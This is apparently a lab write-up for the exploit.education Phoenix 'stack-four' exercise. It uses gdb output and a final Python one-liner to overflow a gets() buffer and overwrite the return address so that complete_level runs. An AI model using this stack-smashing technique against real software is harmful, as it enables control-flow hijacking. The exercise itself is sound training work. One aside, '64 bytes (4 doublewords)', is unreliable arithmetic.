 # stack-four

Right before a function call instruction, the address of the instruction that follows (after the function returns) is often stored on the stack. In this excercise, the goal is to overflow the buffer such that the return address of the function `start_level` gets overwritten. We want to overwrite the return address to the address of the function `complete_level`.

```console
(gdb) disass start_level
Dump of assembler code for function start_level:
   0x0000000000400635 <+0>:     push   rbp
   0x0000000000400636 <+1>:     mov    rbp,rsp
   0x0000000000400639 <+4>:     sub    rsp,0x50
   0x000000000040063d <+8>:     lea    rax,[rbp-0x50]
   0x0000000000400641 <+12>:    mov    rdi,rax
   0x0000000000400644 <+15>:    call   0x400470 <gets@plt>
   0x0000000000400649 <+20>:    mov    rax,QWORD PTR [rbp+0x8]
   0x000000000040064d <+24>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400651 <+28>:    mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400655 <+32>:    mov    rsi,rax
   0x0000000000400658 <+35>:    mov    edi,0x400733
   0x000000000040065d <+40>:    mov    eax,0x0
   0x0000000000400662 <+45>:    call   0x400460 <printf@plt>
   0x0000000000400667 <+50>:    nop
   0x0000000000400668 <+51>:    leave  
   0x0000000000400669 <+52>:    ret
End of assembler dump.
```

We expect the return address to be right above the base pointer when we are inside the start_level function. Let us therefore set a breakpoint somewhere before the gets function and examine the stack just above rbp.

```console
(gdb) break *0x400641              
Breakpoint 1 at 0x400641
(gdb) r
Starting program: /opt/phoenix/amd64/stack-four 
Welcome to phoenix/stack-four, brought to you by https://exploit.education

Breakpoint 1, 0x0000000000400641 in start_level ()
(gdb) x /2gx $rbp
0x7fffffffe510: 0x00007fffffffe530      0x000000000040068d
```

By disassembling main and comparing the output above with the address of the instruction that follows the call to start_level, we confirm our assumption.

```console
(gdb) disass main
Dump of assembler code for function main:
   0x000000000040066a <+0>:     push   rbp
   0x000000000040066b <+1>:     mov    rbp,rsp
   0x000000000040066e <+4>:     sub    rsp,0x10
   0x0000000000400672 <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x0000000000400675 <+11>:    mov    QWORD PTR [rbp-0x10],rsi
   0x0000000000400679 <+15>:    mov    edi,0x400750
   0x000000000040067e <+20>:    call   0x400480 <puts@plt>
   0x0000000000400683 <+25>:    mov    eax,0x0
   0x0000000000400688 <+30>:    call   0x400635 <start_level>
   0x000000000040068d <+35>:    mov    eax,0x0
   0x0000000000400692 <+40>:    leave  
   0x0000000000400693 <+41>:    ret    
End of assembler dump.
```

Now all we have to do is to figure out how much padding we must input and also what the address of complete_level is. We can easily get the latter with the info command:

```console
(gdb) info address complete_level
Symbol "complete_level" is at 0x40061d in a file compiled without debugging.
```

The amount of padding can quite easily be calculated by looking at the source code, or we could just go with trial and error. The return address should be located a few doublewords above the buffer, which itself is 64 bytes (4 doublewords). 

```console
user@phoenix-amd64:/opt/phoenix/amd64$ python -c 'print("A"*64 + "B"*8*3 + "\x1d\x06\x40")' | ./stack-four 
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
```
